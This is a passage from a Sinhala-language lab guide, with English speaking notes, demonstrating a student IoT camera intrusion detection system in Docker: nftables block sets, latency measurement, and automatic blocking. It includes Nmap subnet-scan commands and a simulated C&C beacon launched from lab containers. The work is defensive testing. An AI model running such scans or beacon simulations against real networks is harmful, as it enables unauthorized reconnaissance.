  > - **`set allow`:** කිසිදා Block නොකළ යුතු ආරක්ෂිත උපාංග (Router `.1`, IDS Scanner/Sensor `.5`, Admin `.10`, NVR `.20`). මෙම IP වලින් **එන** packets block sets පරීක්ෂා කිරීමට පෙරම accept වේ (FR-07). කැමරාව `.30` මෙහි නැත; IDS එකේ `lab.local_networks` නීතිය මඟින් එය ආරක්ෂා වේ.
  > - **`set block_src` / `set block_dst`:** ප්‍රහාරක IP වැටෙන Drop Sets (FR-06). `block_src` = එම IP එකෙන් **එන** packets drop (PortScan, manual block); `block_dst` = එම IP එක **වෙත යන** packets drop (C&C server). `flags timeout` නිසා සෑම element එකක්ම නියමිත කාලයකින් ඉබේම ඉවත් වේ.
  > - **`set limit_src`:** DDoS flood source එකෙන් එන packets තත්පරයට 200 ට වැඩි වූ කොටස (burst 5) drop කරන Rate-Limit Set එක (D-055).
  > - **`chain forward`:** Router එක හරහා ගමන් කරන packets allow කරන හෝ drop කරන kernel නීති.
  >
- **මෙයින් ඔප්පු වන කරුණ:** Proposal FR-06 සහ FR-07 තහවුරු වේ. `allow` set එක මඟින් ආරක්ෂිත උපාංග ආරක්‍ෂා කරන අතර, `block_dst` සහ `limit_src` මඟින් ප්‍රහාරකයන්ගේ packets kernel level එකේදීම drop කිරීමට සූදානම්ව පවතී.
- **Supervisor ට පැහැදිලි කරන ආකාරය:**

  > *"Sir, the router enforces native Linux nftables. Notice the allowlist set protecting the router, sensor, management PC and NVR (FR-07), alongside dynamic auto-expiring sets block_dst, block_src, and limit_src (FR-06)."*
  >

---

### 4.2.6 Attacker විසින් Port Scan සිදු කිරීම (Reconnaissance - Table 10 Scenario 2)

> 🎯 **Proposal එකේ මෙම පරීක්ෂණයෙන් සාක්ෂාත් වන අරමුණ සහ ඔප්පු වන කරුණු (What this Test Proves):**
>
> - **ඉටුවන පර්යේෂණ අරමුණ (Objective):** **Objective O6** ("Test how well it detects, how fast it runs, and how much it uses").
> - **විසඳෙන පර්යේෂණ ගැටලුව (Research Question):** **RQ2** ("How well can it sort traffic into the DDoS, scanning, C&C and malware/download classes?").
> - **අදාළ පරීක්ෂණ අවස්ථාව (Table 10 Scenario):** **Table 10 Scenario 2** ("Authorised Nmap horizontal scan: attack laptop: nmap -p 23,80,554 192.168.50.0/24").
> - **මෙය සිදු කළේ ඇයි? (Core Rationale):** පිටත WAN ජාලයේ සිටින Attacker Laptop එක (`10.10.10.50`) Router එක හරහා කැමරා Subnet එකට රහසිගතව පැමිණ විවෘත Ports සෙවීමට Nmap Port Scan ප්‍රහාරයක් එල්ල කළ හැකි බවත්, එම scans Router එක හරහා සාර්ථකව ගමන් කරන අතරතුර Zeek sensor එක ඒ සියල්ල අල්ලාගෙන PortScan logs සාදන බවත් ඔප්පු කිරීමටයි.
> - **Supervisor ට කියන සාරාංශ සාක්ෂිය:** *"Sir, this satisfies Table 10 Scenario 2 and addresses RQ2. The outside attacker scans the camera subnet through the router with Nmap. Zeek records every probe, and the model raises a PortScan alert for the attack laptop 10.10.10.50."*

- **ධාවනය කළ යුතු Commands (Terminal):**

  **ක්‍රමය 1: Proposal Table 10 Scenario 2 සම්පූර්ණ Subnet Scan එක (Alert එක පෙන්වීමට මෙය භාවිත කරන්න):**

  ```powershell
  docker exec ids-lab-attacker nmap -p 23,80,554 192.168.50.0/24
  ```

  **ක්‍රමය 2: කැමරාවේ Ports 80 සහ 554 පමණක් බැලීම (කුඩා scan එකක් - alert එකක් ඇති නොවේ):**

  ```powershell
  docker exec ids-lab-attacker nmap -p 80,554 192.168.50.30
  ```

  > **කේතයෙන් සිදුවන දේ සරලව (Command Breakdown):**
  >
  > - **`docker exec ids-lab-attacker`:** පිටත ජාලයේ සිටින Attacker Laptop Container එක තුළ විධානය ක්‍රියාත්මක කරන්න.
  > - **`nmap -p 23,80,554 192.168.50.0/24`:** කැමරා Subnet එකේ IP ලිපින 256 ම (`192.168.50.0` සිට `.255` දක්වා) Ports 23 (Telnet), 80 (HTTP), 554 (RTSP) සඳහා horizontal scan එකක් කරන්න.
  > - **Zeek සහ Model:** Router එක හරහා ගමන් කරන මෙම probes Zeek විසින් `conn.log` හි ලියයි. Model එක `PortScan` alert එකක් ජනනය කරයි.
  > - **ක්‍රමය 2 පිළිබඳ අවංක සටහන:** එක් host එකක ports 2 ක් පමණක් scan කිරීම flows කිහිපයක් පමණි; 12 Nov 2026 දින පරීක්ෂාවේදී එයින් **කිසිදු alert එකක් ඇති නොවීය**. Alert එක පෙන්වීමට ක්‍රමය 1 භාවිත කරන්න.
  > *(සටහන: ස්වයංක්‍රීයව run කර Table 10 Markdown වාර්තාවක් සෑදීමට: `.venv\Scripts\python.exe lab_virtual\lab.py scenario 2`).*
  >
- **ලැබෙන සැබෑ පිළිතුර (Verified Output - 12 Nov 2026, ක්‍රමය 1 හි අවසාන පේළි):**

  ```text
  Nmap scan report for 192.168.50.30
  PORT    STATE  SERVICE
  23/tcp  closed telnet
  80/tcp  open   http
  554/tcp open   rtsp
  ...
  Nmap done: 256 IP addresses (6 hosts up) scanned in 7.91 seconds
  ```
  *(Hosts 6: router `.1`, scanner `.5`, admin `.10`, NVR `.20`, camera `.30`, සහ Docker bridge එකේම ලිපිනය `.254`. කැමරාවේ පමණක් ports 80 සහ 554 විවෘතයි.)*

- **IDS එක ලබාදුන් ප්‍රතිඵලය (12 Nov 2026, `GET /api/events`):**

  ```text
  PortScan  10.10.10.50 -> 192.168.50.254:23  confidence 0.88  response: candidate  reason: SCAN_RAPID_PROBE_SWEEP
  ```
  - **Alert එකේ destination එක `.254` වන්නේ ඇයි?** Model එක alert එක ලබාදෙන්නේ scan එකේ එක් flow එකකටයි; එය subnet එකේ ඕනෑම host එකක් විය හැක (11 Nov run එකේදීද `.254`, confidence 0.75).
  - **Block නොවූයේ ඇයි?** PortScan block සීමාව $P \ge 0.88$ සහ **තත්පර 60 ක් තුළ alerts 3 ක්** අවශ්‍යයි. මෙහි ඇත්තේ alert 1 ක් පමණි, එබැවින් `candidate` (block නොකර alert පමණි). Confidence එක run එකෙන් run එකට වෙනස් වේ (0.75 – 0.88).

- **🖥️ Dashboard එකෙන් සජීවීව පෙනෙන ආකාරය (`http://localhost:5000/alerts` - Live Alerts):**

  - Refresh නොකරම, අලුත් alert කාඩ්පතක් ඉහළට වැටේ:
    - **Badge:** `MODEL PREDICTION` (නිල් පැහැය) - පරිපාලකයා තවම තහවුරු කර නැති model අනාවැකියක්.
    - **Class:** `PortScan` (තැඹිලි/amber පැහැය), **Confidence:** `88%` පමණ
    - **Source → Destination:** `10.10.10.50:<port> → 192.168.50.254:23` (TCP), direction `inbound`
    - **Response:** `RESPONSE: CANDIDATE`
- **මෙයින් ඔප්පු වන කරුණ:** පිටත ජාලයේ සිට Router එක හරහා කැමරා subnet එකට එන scan එක Zeek විසින් අල්ලාගෙන, Model එක `PortScan` ලෙස හඳුනාගනී. කැමරාව කිසිවිටෙක block නොවේ.
- **Supervisor ට පැහැදිලි කරන ආකාරය:**

  > *"Sir, the attacker at 10.10.10.50 scans the whole camera subnet through the router with Nmap, as in Scenario 2. Zeek records the probes and the model raises a PortScan alert. It is not blocked yet, because a block needs three alerts within 60 seconds at confidence 0.88 or more."*
  >

---

### 4.2.7 IDS Pipeline ක්‍රියාකාරීත්වය සහ Sub-Second Latency තහවුරු කිරීම (ML Detector & Latency - FR-02, FR-03 & Table 9 Target)

> 🎯 **Proposal එකේ මෙම පරීක්ෂණයෙන් සාක්ෂාත් වන අරමුණ සහ ඔප්පු වන කරුණු (What this Test Proves):**
>
> - **ඉටුවන පර්යේෂණ අරමුණු (Objectives):** **Objective O2** ("Train and test a multi-class Random Forest with no scenario leakage") සහ **Objective O6** ("Test how well it detects, how fast it runs, and how much it uses").
> - **සම්පූර්ණ වන ක්‍රියාකාරී අවශ්‍යතා (Requirements):** **Table 7 FR-02 (Must)** ("Put each flow we can use into a class, and give back the class, the confidence and the model version") සහ **FR-03 (Must)** ("Save benign traffic summaries, attacks and response actions").
> - **විසඳෙන පර්යේෂණ ගැටලුව සහ ඉලක්කය (RQ & Target):** **RQ4** ("How much time does the whole process take in the laboratory, from detection to dashboard, alert and blocking?") සහ **Table 9 Latency Target** — "Median decision latency $< 2.0\text{ s}$; 95th percentile $< 5.0\text{ s}$".
> - **මෙය සිදු කළේ ඇයි? (Core Rationale):** අපේ Random Forest Model එක (v3.1.0) Background Pipeline එක තුළ සක්‍රියව ධාවනය වන බවත්, සාමාන්‍ය (Benign) flows MongoDB හි `traffic_summaries` තුළ සාරාංශ ලෙස සටහන් වන බවත් (FR-03), Zeek පේළිය කියවූ මොහොතේ සිට Dashboard එකට push කරන තෙක් කාලය (decision latency) Proposal Table 9 ඉලක්කයට (median < 2 s, 95% < 5 s) වඩා බොහෝ අඩු බවත් සජීවීව පෙන්වීමටයි.
> - **Supervisor ට කියන සාරාංශ සාක්ෂිය:** *"Sir, this satisfies Objectives O2 and O6, FR-02, FR-03 and the Table 9 latency target. The live pipeline runs model v3.1.0. From the moment our adapter reads a Zeek line to the moment the dashboard is told, the median is about 0.1 to 0.2 seconds, well under the 2-second target. The numbers change from run to run, so we read them live."*

---

#### සාක්ෂිය 1: පද්ධතියේ Pipeline තත්ත්වය සහ Latency එක ලබාගැනීම (System Status & Latency Metric Check)

Terminal එකේ පහත Python විධානය ධාවනය කර Backend API එකෙන් සජීවී තත්ත්වය බලන්න:

```powershell
python -c "
import urllib.request, json
with open('lab_virtual/keys/dashboard_login.txt') as f:
    u, p = f.read().strip().split()[:2]
req = urllib.request.Request('http://127.0.0.1:5000/api/auth/login', data=json.dumps({'username':u,'password':p}).encode(), headers={'Content-Type':'application/json'})
tok = json.loads(urllib.request.urlopen(req).read())['token']
req2 = urllib.request.Request('http://127.0.0.1:5000/api/summary', headers={'Authorization':'Bearer '+tok})
print(json.dumps(json.loads(urllib.request.urlopen(req2).read()), indent=2))
"
```

> **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
>
> - **`import urllib.request, json`:** HTTP requests යැවීමට සහ JSON කියවීමට අවශ්‍ය සම්මත Python libraries.
> - **`open('...dashboard_login.txt')`:** `labadmin` පරිශීලක නාමය සහ මුරපදය ගොනුවෙන් කියවා ගැනීම.
> - **`POST /api/auth/login`:** Login වී **JWT Token** එකක් ලබාගැනීම (Proposal Section 3.7 - Authenticated Administrator).
> - **`GET /api/summary`:** Overview පිටුව භාවිත කරන එකම දත්ත (මනින ලද latency, model version, flows, blocks) ලබාගෙන පෙන්වීම.

- **ලැබෙන සැබෑ පිළිතුර (12 Nov 2026, backend එක ආරම්භ කර මිනිත්තු 6 කට පසු; කෙටි කළ):**

  ```json
  {
    "class_distribution": { "CnC": 660, "DDoS_DoS": 146, "Malware_Download": 1, "PortScan": 42 },
    "metrics": {
      "active_blocks": 0,
      "active_rate_limits": 0,
      "benign_flows_24h": 116,
      "camera_devices": 1,
      "total_devices": 6,
      "total_incidents": 41
    },
    "status": "success",
    "system": {
      "auto_response": true,
      "firewall": "router_ssh",
      "firewall_simulated": false,
      "flows_processed": 64,
      "latency_ms_p50": 113.87,
      "latency_ms_p95": 300.29,
      "local_networks": [ "192.168.50.0/24" ],
      "model_version": "v3.1.0",
      "pipeline_status": "running"
    }
  }
  ```

  > **ලැබුණු දත්ත වල තේරුම (Output Breakdown):**
  >
  > - **`system.pipeline_status: "running"`:** Zeek logs කියවා Model එකට යවන Pipeline එක ධාවනය වේ.
  > - **`system.model_version: "v3.1.0"`:** භාවිත වන Random Forest Model අනුවාදය (FR-02).
  > - **`system.latency_ms_p50` / `latency_ms_p95`:** Pipeline එක ආරම්භ වූ පසු සැකසූ flows (`flows_processed`) මත, Zeek පේළිය කියවූ මොහොතේ සිට dashboard push එක දක්වා කාලයේ median සහ 95th percentile.
  > - **`system.firewall: "router_ssh"`, `firewall_simulated: false`:** Block කිරීම් සැබෑ Router එකට SSH මඟින් යයි.
  > - **`metrics.benign_flows_24h`:** පසුගිය පැය 24 තුළ Benign ලෙස සැකසූ **සියලු** flows ගණන (කැමරාව, NVR, Admin, Cloud, DNS, NTP ආදී සියල්ල).
  > - **`class_distribution`:** Database එකේ ඇති ප්‍රහාරක flows ගණන පන්තිය අනුව (පෙර runs වලද ඇතුළුව).

---

#### සාක්ෂිය 2: සජීවීව Packet එකක් යවා Latency මැන පෙන්වීම (Live Packet Injection & Latency Measurement Test)

> 🔬 **මෙම පරීක්ෂණයේ අරමුණ:** Admin PC එකෙන් කැමරාවට **සජීවී HTTP request එකක්** යවා, (1) ජාලය හරහා එය යාමට ගතවන සැබෑ කාලය container එක තුළදීම මැනීම, සහ (2) Pipeline එකේ decision latency අගයන් එම මොහොතේදීම API එකෙන් කියවීම.

- **ධාවනය කළ යුතු Command එක (Terminal):**

  ```powershell
  python -c "
  import time, subprocess, urllib.request, json

  # 1. Login credentials කියවා JWT Token එක ලබාගැනීම
  with open('lab_virtual/keys/dashboard_login.txt') as f:
      u, p = f.read().strip().split()[:2]
  req = urllib.request.Request('http://127.0.0.1:5000/api/auth/login', data=json.dumps({'username':u,'password':p}).encode(), headers={'Content-Type':'application/json'})
  tok = json.loads(urllib.request.urlopen(req).read())['token']

  # 2. Admin PC container එක තුළදීම කැමරාවට HTTP request එකක් යවා ජාල කාලය මැනීම
  code = 'import time,urllib.request;t=time.perf_counter();urllib.request.urlopen(chr(104)+chr(116)+chr(116)+chr(112)+chr(58)+chr(47)+chr(47)+chr(49)+chr(57)+chr(50)+chr(46)+chr(49)+chr(54)+chr(56)+chr(46)+chr(53)+chr(48)+chr(46)+chr(51)+chr(48)+chr(47)).read();print(round((time.perf_counter()-t)*1000,2))'
  net_ms = subprocess.run(['docker', 'exec', 'ids-lab-admin', 'python', '-c', code], capture_output=True, text=True).stdout.strip()

  # 3. Zeek පේළිය ලියා Pipeline එක එය සැකසීමට සුළු විරාමයක්
  time.sleep(3)

  # 4. Backend Pipeline එකෙන් Decision Latency මිනුම් ලබාගැනීම
  req_status = urllib.request.Request('http://127.0.0.1:5000/api/v1/pipeline/status', headers={'Authorization': 'Bearer ' + tok})
  metrics = json.loads(urllib.request.urlopen(req_status).read())['metrics']
  p50, p95, flows = metrics['latency_ms_p50'], metrics['latency_ms_p95'], metrics['flows_processed']

  print('=== LIVE INJECTION & PIPELINE LATENCY TEST ===')
  print('1. HTTP round trip inside the lab (Admin -> Camera):', net_ms, 'ms')
  print('2. Pipeline decision latency, median (p50):       ', p50, 'ms')
  print('3. Pipeline decision latency, 95th percentile:    ', p95, 'ms')
  print('4. Flows processed since the pipeline started:    ', flows)
  print('5. Table 9 target: median < 2000 ms ->', 'PASS' if p50 < 2000 else 'FAIL', '(%.0fx below)' % (2000 / p50), '| 95% < 5000 ms ->', 'PASS' if p95 < 5000 else 'FAIL')
  "
  ```

  > **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
  >
  > - **පියවර 1 (`POST /api/auth/login`):** API එක භාවිත කිරීමට JWT token එකක් ලබාගනී.
  > - **පියවර 2 (`docker exec ids-lab-admin python -c ...`):** Admin PC container එක **තුළදීම** timer එක ආරම්භ කර කැමරාවේ web page එක (`http://192.168.50.30/`) ලබාගෙන කාලය මනී. (URL එක `chr(...)` ලෙස ලියා ඇත්තේ PowerShell 5.1 හි quotes ගැටලු මඟහැරීමටයි.) Windows එකේ සිට `docker exec` එක මැනුවොත් docker exec ආරම්භ වීමේ කාලය (~0.2–1.5 s) ද එකතු වන බැවින් එය ජාල කාලය නොවේ.
  > - **පියවර 3 (`time.sleep(3)`):** Connection එක වැසුණු පසු Zeek පේළිය ලියා Pipeline එක එය කියවීමට කාලය දෙයි.
  > - **පියවර 4 (`GET /api/v1/pipeline/status`):** Pipeline එක ආරම්භ වූ පසු සැකසූ සියලු flows මත ගණනය කළ median සහ 95th percentile කියවයි.
  > - **පියවර 5:** Table 9 ඉලක්ක සමඟ **ගණනය කර** සසඳයි (PASS/FAIL සහ ගුණය ස්ථාවර text එකක් නොවේ).
  >   *(සටහන: Backend එක ආරම්භ කළ මුල් මිනිත්තු කිහිපයේ latency ~570 ms පමණ වේ; ඉන්පසු ~115 ms පමණ දක්වා අඩු වේ. විශාල flood එකකින් පසු flows දහස් ගණනක් එකවර පැමිණෙන බැවින් median එක ~180 ms, 95% එක ~575 ms පමණ දක්වා ඉහළ යා හැක - තවමත් ඉලක්කයට වඩා බොහෝ අඩුය.)*
  >
- **ලැබෙන සැබෑ පිළිතුර (උදාහරණය - අගයන් සෑම run එකකදීම වෙනස් වේ):**

  ```text
  === LIVE INJECTION & PIPELINE LATENCY TEST ===
  1. HTTP round trip inside the lab (Admin -> Camera): 18.69 ms
  2. Pipeline decision latency, median (p50):        180.03 ms
  3. Pipeline decision latency, 95th percentile:     573.73 ms
  4. Flows processed since the pipeline started:     3129
  5. Table 9 target: median < 2000 ms -> PASS (11x below) | 95% < 5000 ms -> PASS
  ```

---

#### සාක්ෂිය 3: "Pipeline Decision Latency" යනු කුමක්ද සහ එය සිදුවන අදියර 5 (Deep Dive into the 5 Internal Stages)

> 💡 **Latency යනු කුමක්ද? එය සාමාන්‍ය Ping එකක් නොවේද?**
>
> සාමාන්‍ය **Ping Latency** යනු පරිගණක දෙකක් අතර packet එකක් ගොස් ඒමට ගතවන කාලයයි.
> අපගේ පද්ධතියේ මනිනු ලබන **Pipeline Decision Latency** යනු **Adapter එක Zeek පේළිය කියවූ මොහොතේ (`adapter_ts`) සිට**, features සාදා, Model එකෙන් වර්ගීකරණය කර, Decision Engine එකෙන් තීරණය කර, MongoDB හි ලියා, WebSocket හරහා dashboard එකට message එක යවන (`emit_ts`) තෙක් කාලයයි. **Zeek එක connection එක අවසන් වන තෙක් බලා සිටින කාලය මෙයට ඇතුළත් නොවේ** (කෙටි connections වලට මෙය තත්පරයකටත් අඩුය; NVR stream එක වැනි දිගු connection එකක් තත්පර 300 කට පසුව පමණක් ලියවේ).

```
[Virtual Network Bridge: br-ids-lan]
               │
               ▼  (Stage 1: Packet sniffing; Zeek writes the line when the connection ends - NOT timed)
     [Zeek Sensor conn.log]  ──► timestamps["zeek_ts"]
               │
               ▼  (Stage 2: File tailing & 27 feature extraction)      ◄── timer starts (adapter_ts)
    [LivePipelineRunner]     ──► timestamps["adapter_ts"]
               │
               ▼  (Stage 3: Random Forest Multiclass Inference)
   [ML Model Detector v3.1.0] ──► timestamps["detect_ts"]
               │
               ▼  (Stage 4: Safety rules: allowlist, local networks, thresholds, repeats)
      [DecisionEngine]       ──► timestamps["decision_ts"]
               │
               ▼  (Stage 5: MongoDB write & WebSocket broadcast)       ◄── timer stops (emit_ts)
   [Socket.IO / React SOC]   ──► timestamps["emit_ts"]
```

1. **අදියර 1 - Packet Capture & Flow Termination (`zeek_ts`):**
   - Virtual Switch එක (`br-ids-lan`) හරහා ගමන් කරන frames Zeek විසින් capture කර TCP state එක නිරීක්ෂණය කරයි.
   - Connection එක අවසන් වූ පසු (TCP FIN/RST හෝ inactivity timeout), flow එක `conn.log` හි එක් JSON පේළියක් ලෙස ලියයි.
2. **අදියර 2 - Live Adapter Ingestion & Feature Extraction (`adapter_ts`):**
   - `LivePipelineRunner` එක `conn.log` හි අලුත් පේළි කියවයි.
   - Proposal Table 6 අනුව features 27 ක් සාදයි: one-flow features 19 (`proto`, `service`, `conn_state`, `history`, `duration`, `orig_bytes`, ...) සහ window features 8 (`src_conn_60s`, ..., `pair_fail_1h`).
3. **අදියර 3 - Random Forest ML Inference (`detect_ts`):**
   - Features 27, Model v3.1.0 වෙත යවයි.
   - Decision Trees 100 ක් හරහා flow එක `Benign`, `DDoS_DoS`, `PortScan`, `CnC`, හෝ `Malware_Download` යන පන්ති 5 න් කුමකටද යන්නත්, එහි confidence ($P$) කොපමණද යන්නත් ගණනය කරයි.
4. **අදියර 4 - Decision Engine & Safety Rules (`decision_ts`):**
   - Alert එකක් සඳහා $P \ge 0.30$ දැයි බලයි.
   - Block/rate-limit කිරීමට පෙර: target IP එක allowlist (`.1`, `.5`, `.10`, `.20`) හෝ කැමරා ජාලයේ (`192.168.50.0/24`) නැති බව, පන්තියේ සීමාව (CnC 0.30, PortScan 0.88, DDoS rate-limit 0.30), සහ තත්පර 60 ක් තුළ alerts 3 ක් ඇති බව පරීක්ෂා කරයි.
5. **අදියර 5 - MongoDB Storage & Real-Time Socket.IO Push (`emit_ts`):**
   - Benign flows `traffic_summaries` හි, ප්‍රහාර `attack_events` හි සටහන් කරයි.
   - WebSockets (Socket.IO) හරහා dashboard එකට `traffic_update` (benign) හෝ `new_event` (ප්‍රහාරය) ලෙස යවයි.

- **කේතය තුළ Latency ගණනය වන සූත්‍රය ([`core_engine/decision_engine.py`](<file:///d:/intrusion%20detection/core_engine/decision_engine.py#L548>)):**

  $$
  \text{Pipeline Decision Latency (ms)} = (\text{emit\_ts} - \text{adapter\_ts}) \times 1000.0
  $$
- **`latency_ms_p50` සහ `latency_ms_p95` හි තේරුම:**

  - **`latency_ms_p50` (Median):** සැකසූ flows වලින් **50% ක්** මෙම කාලයට වඩා අඩු කාලයකින් dashboard එකට push විය.
  - **`latency_ms_p95` (95th Percentile):** flows වලින් **95% ක්** මෙම කාලයට වඩා අඩු කාලයකින් push විය.
- **Proposal Table 9 ඉලක්කය සමග සංසන්දනය (12 Nov 2026 මැනුම්):**

  | මිනුම (Metric) | Proposal Table 9 ඉලක්කය | මනින ලද අගය | තත්ත්වය |
  | :--- | :--- | :--- | :--- |
  | **Median ($p50$)** | $< 2.0\text{ s}$ | ~0.11–0.18 s (ආරම්භයේදී ~0.57 s) | ✅ PASS |
  | **95th Percentile ($p95$)** | $< 5.0\text{ s}$ | ~0.30–0.58 s | ✅ PASS |

  *(Virtual Lab මැනුමකි. සැබෑ කැමරාව සමඟ RQ4 හි අවසාන මැනුම Hardware Lab එකෙන් ලැබේ.)*
- **🖥️ Dashboard එකෙන් සජීවීව පෙනෙන ආකාරය (`http://localhost:5000/overview` - Overview):**

  - **`MONITORED FLOWS`:** Pipeline එක ආරම්භ වූ පසු සැකසූ flows ගණන (`flows_processed`), සහ යටින් "benign in 24 h" ගණන.
  - **`PIPELINE: RUNNING`:** Pipeline එක ධාවනය වන බව දක්වන badge එක.
  - **`SYSTEM STATUS (MEASURED)`:**
    - `Time per flow, Zeek line to dashboard (median / 95%)`: මනින ලද p50 / p95 අගයන්.
    - `Model`: **`v3.1.0`**.
    - `Automatic response`: **`ON (lab test) · firewall: router_ssh`**.
- **Supervisor ට පැහැදිලි කරන ආකාරය:**

  > *"Sir, the live test sends a real request inside the lab and then reads the measured latency from the pipeline. The time is counted from when our adapter reads the Zeek line until the dashboard is told. The median is about 0.1 to 0.2 seconds and the 95th percentile under 0.6 seconds, well inside the Table 9 targets of 2 and 5 seconds. Zeek itself writes a line only when a connection ends; that wait is not part of this number."*
  >

---

### 4.2.8 C&C ප්‍රහාරය හඳුනාගෙන Router Firewall එකේ සජීවීව Block වීම (Autonomous Mitigation - FR-04, FR-06 & Table 10 Scenario 4)

> 🎯 **Proposal එකේ මෙම පරීක්ෂණයෙන් සාක්ෂාත් වන අරමුණ සහ ඔප්පු වන කරුණු (What this Test Proves):**
>
> - **ඉටුවන පර්යේෂණ අරමුණු (Objectives):** **Objective O4** ("Build monitoring, dashboard, storage and alerts, and join them together") සහ **Objective O5** ("Build IP blocking that follows the policy, and let the admin undo it by hand").
> - **සම්පූර්ණ වන ක්‍රියාකාරී අවශ්‍යතා (Requirements):** **Table 7 FR-04 (Must)** ("Send new events and alerts to the dashboard, which needs a login, without the user pressing refresh") සහ **FR-06 (Must)** ("Add, list, expire and remove blocking rules on the firewall or router").
> - **විසඳෙන පර්යේෂණ ගැටලුව සහ පරීක්ෂණ අවස්ථාව (RQ & Scenario):** **RQ4** ("How much time does the whole process take from detection to dashboard, alert and blocking?") සහ **Table 10 Scenario 4** ("C&C-like periodic outbound simulation: C&C destination blocked, camera never blocked").
> - **මෙය සිදු කළේ ඇයි? (Core Rationale):** ප්‍රහාරයක් පැමිණි විට මිනිස් මැදිහත්වීමකින් තොරව (Autonomously) පද්ධතිය තනිවම තීරණය කර SSH මඟින් Router kernel එකට Drop rule එක ඇතුළත් කරන බවත්, මිනිත්තු 30 කින් ඉබේම ඉවත් වන (`timeout 30m`) rule එකක් සක්‍රිය වන බවත්, තිරය refresh නොවී Browser එකේ Dashboard එකට තත්‍ය කාලීන Alert එකක් සහ block record එක (EXPIRES AT වේලාව සමඟ) Socket.IO මඟින් ක්ෂණිකව තල්ලු (WebSocket push) වන බවත් ඔප්පු කිරීමටයි.
> - **Supervisor ට කියන සාරාංශ සාක්ෂිය:** *"Sir, this satisfies Objectives O4 & O5, Table 7 FR-04 & FR-06, and Table 10 Scenario 4. When the camera keeps trying to reach the outside C&C server, the model predicts CnC; after three such alerts within 60 seconds, the decision engine puts 10.10.10.50 into the router's block_dst set for 30 minutes, and the alert appears on the dashboard without a page reload. The camera itself is never blocked."*

- **පියවර 1: ප්‍රහාරයට පෙර Router එකේ `block_dst` ලැයිස්තුව හිස් බව පෙන්වීම:**

  ```powershell
  docker exec ids-lab-router nft list set inet ids block_dst
  ```

  > **කේතයෙන් සිදුවන දේ සරලව:** Router Container එක ඇතුළට ගොස් Linux `nftables` හි `block_dst` නම් Drop ලැයිස්තුව ප්‍රහාරයට පෙර හිස්දැයි (`elements = { }`) තහවුරු කරගන්න.
  >
- **පියවර 2: සජීවී C&C ප්‍රහාරය සෘජුවම දියත් කිරීම (Direct C&C Botnet Attack Execution):**

  Terminal එකේ පහත සෘජු විධාන 2 ධාවනය කර C&C Master Server එක සහ කැමරාවේ Outbound Botnet Beacons ක්ෂණිකව ආරම්භ කරන්න:

  ```powershell
  # 1. Attacker මැෂිමේ Port 6667 Master C&C Server එක සෘජුවම විවෘත කිරීම:
  docker exec -d ids-lab-attack-server python -u /lab/lab_server.py --role cnc --cnc-open-after 120

  # 2. ආසාදිත කැමරාව ලවා Attacker C&C Server (10.10.10.50:6667) වෙත Outbound Beacons යැවීම ආරම්භ කිරීම:
  docker exec -d ids-lab-camera python -u /lab/camera_sim.py bot --server 10.10.10.50 --every 5 --session 30 --duration 90
  ```

  > **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
  >
  > 1. **`docker exec -d ids-lab-attack-server ...`:** පිටත WAN ජාලයේ සිටින Attacker පරිගණකය (`10.10.10.50`) තුළ Port 6667 (IRC/Botnet control port) මත Master C&C Server එකක් Background එකේ (`-d`) සක්‍රිය කරයි.
  > 2. **`docker exec -d ids-lab-camera ...`:** ආසාදිත කැමරාව (`192.168.50.30`) තුළින් සෑම තත්පර 5 කට වරක්ම පිටත C&C Server එක (`10.10.10.50:6667`) වෙත සම්බන්ධ වීමට උත්සාහ කරයි (`--duration 90` = තත්පර 90 ක් පමණි). සම්බන්ධ වුවහොත් IRC-වැනි කෙටි chat session එකක් (`NICK`, `USER`, `PING`/`PONG`) පවත්වයි (shell එකක් නොවේ).
  >    - **වැදගත්:** C&C server එක විවෘත වන්නේ තත්පර 120 කට පසුවයි (`--cnc-open-after 120`, IoT-23 හි මෙන් මුල් උත්සාහයන් අසාර්ථක වීමට). Bot එක තත්පර 90 කින් නවතින බැවින් මෙම demo එකේ සියලු උත්සාහයන් **ප්‍රතික්ෂේප (REJ)** වේ. Detection එක පදනම් වන්නේ මෙම නැවත නැවත අසාර්ථක වන outbound උත්සාහයන් මතයි (`pair_fail_1h`, `pair_gap`).
  > 3. **පද්ධතියේ AI සහ Autonomous Mitigation ක්‍රියාත්මක වීම:**
  >    - **Zeek Sniffing:** Zeek sensor එක කැමරාවෙන් පිටතට යන මෙම flows capture කර `conn.log` හි ලියයි (`conn_state: "REJ"`).
  >    - **ML Model Inference (v3.1.0):** Features 27 කියවා Model එක **`CnC`** ලෙස හඳුනාගනී (12 Nov 2026: confidence **0.93**, 13 Nov: **0.86**; ආරම්භ කර තත්පර ~21–24 කින්).
  >    - **Safety Rules & Autonomous Block:** CnC block සීමාව $P \ge 0.30$ සහ තත්පර 60 තුළ alerts 3 ක්. කැමරාව `lab.local_networks` (`192.168.50.0/24`) තුළ ඇති බැවින් කිසිසේත්ම block නොකර, පිටත C&C Server IP එක (`10.10.10.50`) Router එකේ `block_dst` set එකට මිනිත්තු 30 කට (`timeout 30m`) ඇතුළත් කරයි. Block එකෙන් පසු කැමරාවේ උත්සාහයන් router එකේදී drop වේ (`conn_state: "S0"`).
  >    - **කැමරා stream එක:** කැමරාව සහ NVR අතර traffic router එක හරහා නොයන බැවින් block එක එයට බලපාන්නේ නැත; NVR එක දිගටම 58.6 MB segments පටිගත කරයි (4.2.9).
  >    - **තවත් දකින්නට හැකි දෙයක්:** එම flows සඳහා model එක සමහරවිට කුඩා confidence එකකින් (උදා: 0.49) `PortScan` alert එකක්ද දෙයි; කැමරාව ආරක්ෂිත බැවින් එහි response එක `none` වේ.
  >    - **විශ්වාසනීයත්වය:** 12 Nov (0.93) සහ 13 Nov 2026 (0.86) දින මෙම විධාන දෙක run කළ වාර දෙකේදීම block එක ලැබුණි. පෙර `lab.py scenario 4` runs වලින් (11 Nov) සමහර ඒවායේ confidence අඩු වී (0.46, 0.65) block නොවීය. Block එක නොලැබුණොත්, cleanup commands run කර, තත්පර 60 ක් රැඳී, විධාන දෙක නැවත run කරන්න.
  >
  > 💡 **ප්‍රහාරය අවසන් වූ පසු C&C processes නැවැත්වීමට (Cleanup Commands):**
  > ```powershell
  > docker exec ids-lab-attack-server pkill -f "lab_server.py --role cnc"
  > docker exec ids-lab-camera pkill -f "camera_sim.py bot"
  > ```
